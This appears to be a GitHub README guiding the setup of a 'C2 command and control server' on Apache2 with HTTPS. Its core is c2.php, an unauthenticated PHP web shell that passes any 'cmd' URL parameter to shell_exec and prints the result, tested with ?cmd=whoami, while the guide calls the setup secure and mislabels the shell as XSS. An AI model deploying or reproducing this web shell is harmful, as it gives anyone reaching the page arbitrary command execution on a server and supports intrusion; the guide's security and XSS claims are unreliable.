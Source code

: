 
# 🔧 C2 Command & Control Server with Apache2

**C2 Server Setup** is a complete guide for setting up a secure Command & Control (C2) server using Apache2 on an Ubuntu server. This setup includes HTTPS configuration, strict access control, and a public directory for XSS commands.

---

## ✨ Features

- ✅ Secure installation of Apache2 for a C2 server
- ✅ Configuration of a VirtualHost with HTTPS (SSL)
- ✅ Strict access control with directory permissions
- ✅ Creation of a public directory for XSS commands (c2.php)
- ✅ Automated setup with a Bash script

---

## 📁 Project Structure

| File/Directory          | Description |
|-------------------------|-------------|
| `/etc/apache2/sites-available/myserver.com.conf` | Apache2 VirtualHost configuration |
| `/var/www/myserver.com/` | Main directory for the C2 server |
| `/var/www/myserver.com/public/` | Public directory for XSS commands |
| `c2.php`                 | Public command execution file (XSS) |

---

## ⚙️ Prerequisites

- ✅ Ubuntu 20.04 or higher
- ✅ Sudo access
- ✅ A domain name pointing to your VPS IP (A record)
- ✅ Certbot (for SSL)

---

## 🚀 Installation Steps

### 1️⃣ Install Apache2
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install apache2 -y
```

### 2️⃣ Configure the VirtualHost for myserver.com
```bash
sudo nano /etc/apache2/sites-available/myserver.com.conf
```

### ➡️ VirtualHost Configuration:
```apache
<VirtualHost *:80>
    ServerName myserver.com
    ServerAlias www.myserver.com

    RewriteEngine On
    RewriteCond %{HTTPS} off
    RewriteRule ^ https://%{HTTP_HOST}%{REQUEST_URI} [L,R=301]
</VirtualHost>

<VirtualHost *:443>
    ServerName myserver.com
    ServerAlias www.myserver.com
    DocumentRoot /var/www/myserver.com

    SSLEngine on
    SSLCertificateFile /etc/letsencrypt/live/myserver.com/fullchain.pem
    SSLCertificateKeyFile /etc/letsencrypt/live/myserver.com/privkey.pem

    <Directory /var/www/myserver.com>
        Options -Indexes +FollowSymLinks
        AllowOverride None
        Require all denied
    </Directory>

    <Directory /var/www/myserver.com/public>
        Options -Indexes +FollowSymLinks
        AllowOverride None
        Require all granted
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/myserver_error.log
    CustomLog ${APACHE_LOG_DIR}/myserver_access.log combined
</VirtualHost>
```

---

### 3️⃣ Activate the Site
```bash
sudo a2ensite myserver.com.conf
sudo systemctl restart apache2
```

### 4️⃣ SSL Configuration with Certbot
```bash
sudo apt install certbot python3-certbot-apache -y
sudo certbot --apache -d myserver.com -d www.myserver.com
```

---

### 5️⃣ Create the Public Directory (XSS)
```bash
sudo mkdir -p /var/www/myserver.com/public
```

### ➡️ Create c2.php
```bash
sudo nano /var/www/myserver.com/public/c2.php
```

### ➡️ c2.php Content:
```php
<?php
if (isset($_GET['cmd'])) {
    $command = $_GET['cmd'];
    $output = shell_exec($command);
    echo "<pre>$output</pre>";
} else {
    echo "C2 Command Server - Ready";
}
?>
```

---

### 6️⃣ Security Testing
- Access `https://myserver.com/` should show a 403 error.
- Access `https://myserver.com/public/c2.php?cmd=whoami` should display the command output.

---

## 🚀 Automation with a Bash Script
```bash
#!/bin/bash
sudo apt update && sudo apt upgrade -y
sudo apt install apache2 certbot python3-certbot-apache -y

sudo mkdir -p /var/www/myserver.com/public

sudo nano /etc/apache2/sites-available/myserver.com.conf

sudo a2ensite myserver.com.conf
sudo a2dissite 000-default.conf

sudo systemctl restart apache2

sudo nano /var/www/myserver.com/public/c2.php

sudo systemctl restart apache2
```
